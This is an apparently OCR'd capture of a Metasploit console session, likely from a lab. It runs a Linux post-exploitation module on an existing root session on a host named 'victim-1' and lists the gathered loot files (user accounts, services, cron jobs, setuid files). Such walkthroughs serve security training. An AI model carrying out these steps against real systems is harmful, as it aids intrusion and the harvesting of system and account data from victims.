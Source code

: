 ```
msf5 post(linux/gather/enum_protections) > search enum_system

Matching Modules
================

   #  Name                           Disclosure Date  Rank    Check  Description
   -  ----                           ---------------  ----    -----  -----------
   1  post/linux/gather/enum_system                   normal  No     Linux Gather System and User Information


msf5 post(linux/gather/enum_protections) > use post/linux/gather/enum_system
msf5 post(linux/gather/enum_system) > show options

Module options (post/linux/gather/enum_system):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf5 post(linux/gather/enum_system) > set SESSION 8
SESSION => 8
msf5 post(linux/gather/enum_system) > run

[+] Info:
[+]     Debian GNU/Linux 8  
[+]     Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64 GNU/Linux
[+]     Module running as "root" user
[*] Linux version stored in /root/.msf4/loot/20230310153954_Linux_PE_192.111.31.3_linux.enum.syste_023977.txt
[*] User accounts stored in /root/.msf4/loot/20230310153954_Linux_PE_192.111.31.3_linux.enum.syste_505181.txt
[*] Installed Packages stored in /root/.msf4/loot/20230310153954_Linux_PE_192.111.31.3_linux.enum.syste_504764.txt
[*] Running Services stored in /root/.msf4/loot/20230310153954_Linux_PE_192.111.31.3_linux.enum.syste_981652.txt
[*] Cron jobs stored in /root/.msf4/loot/20230310153954_Linux_PE_192.111.31.3_linux.enum.syste_602329.txt
[*] Disk info stored in /root/.msf4/loot/20230310153954_Linux_PE_192.111.31.3_linux.enum.syste_230170.txt
[*] Logfiles stored in /root/.msf4/loot/20230310153954_Linux_PE_192.111.31.3_linux.enum.syste_029298.txt
[*] Setuid/setgid files stored in /root/.msf4/loot/20230310153954_Linux_PE_192.111.31.3_linux.enum.syste_921402.txt
[*] Post module execution completed
```

```
msf5 post(linux/gather/enum_system) > loot

Loot
====

host          service  type                name                  content     info                 path
----          -------  ----                ----                  -------     ----                 ----
192.111.31.3           linux.enum.system                         text/plain  Linux version        /root/.msf4/loot/20230310153954_Linux_PE_192.111.31.3_linux.enum.syste_023977.txt
192.111.31.3           linux.enum.system                         text/plain  User accounts        /root/.msf4/loot/20230310153954_Linux_PE_192.111.31.3_linux.enum.syste_505181.txt
192.111.31.3           linux.enum.system                         text/plain  Installed Packages   /root/.msf4/loot/20230310153954_Linux_PE_192.111.31.3_linux.enum.syste_504764.txt
```